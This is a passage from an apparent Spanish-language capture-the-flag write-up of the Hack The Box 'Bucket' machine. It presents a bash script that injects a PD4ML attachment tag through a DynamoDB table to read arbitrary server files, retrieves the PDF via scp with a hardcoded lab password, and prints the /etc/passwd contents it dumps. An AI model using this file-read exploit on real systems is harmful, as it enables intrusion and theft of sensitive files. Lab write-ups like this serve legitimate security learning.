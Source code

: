 Bien, podemos intentar extraer ficheros del sistema, con el siguiente script se puede hacer esto para no tener que estar ejecutando los comandos: 
```bash 
#!/bin/bash


target=$1

# delete table
aws --endpoint-url http://s3.bucket.htb dynamodb delete-table --table-name alerts 2>/dev/null >/dev/null
# create table
aws --endpoint-url http://s3.bucket.htb dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH             AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 >/dev/null
# put entry into table; use commandline arg as target file
aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<html><pd4ml:attachment src=\"'"$target"'\" description=\"attachment sample\" icon=\"Paperclip\"/></        html>"}}' >/dev/null
# sleep to allow DB to sync
sleep 0.2
# trigger PDF generation
curl -s http://127.0.0.1:8000/index.php --data 'action=get_alerts'
# sleep to allow PDF generation
sleep 0.2
# get pdf
sshpass -p 'n2vM-<_K_Q:.Aa2' scp roy@10.10.10.212:/var/www/bucket-app/files/result.pdf .

# extract 
tfile="/tmp/bucket-pdf-out"
pdfdetach result.pdf -save 1 -o $tfile
cat $tfile
rm $tfile
```


Y funciona: 

```bash 
──(kali㉿kali)-[~/labs-hack]
└─$ ./get_files.sh /etc/passwd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
```